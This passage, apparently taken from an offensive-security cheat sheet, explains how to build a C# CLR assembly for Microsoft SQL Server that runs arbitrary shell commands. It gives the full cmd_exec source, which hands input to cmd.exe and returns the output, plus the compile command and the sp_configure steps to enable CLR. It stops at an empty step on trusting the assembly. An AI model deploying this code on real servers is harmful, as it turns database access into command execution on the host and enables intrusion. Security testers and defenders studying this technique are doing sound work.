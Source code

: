
### Manually creating a CLR DLL and importing it

Create a C# DLL file with the following content, with the command : `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library c:\temp\cmd_exec.cs`

```csharp
using System;
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using Microsoft.SqlServer.Server;
using System.IO;
using System.Diagnostics;
using System.Text;

public partial class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void cmd_exec (SqlString execCommand)
    {
        Process proc = new Process();
        proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
        proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand.Value);
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();

        // Create the record and specify the metadata for the columns.
        SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", SqlDbType.NVarChar, 4000));
        
        // Mark the beginning of the result set.
        SqlContext.Pipe.SendResultsStart(record);

        // Set values for each column in the row
        record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());

        // Send the row back to the client.
        SqlContext.Pipe.SendResultsRow(record);
        
        // Mark the end of the result set.
        SqlContext.Pipe.SendResultsEnd();
        
        proc.WaitForExit();
        proc.Close();
    }
};
```

Then follow these instructions:

1. Enable `show advanced options` on the server
	```sql
	sp_configure 'show advanced options',1; 
	RECONFIGURE
	GO
	```
2. Enable CLR on the server
	```sql
	sp_configure 'clr enabled',1
	RECONFIGURE
	GO
	```
3. Trust the assembly by adding its SHA512 hash
   ```sql
   ```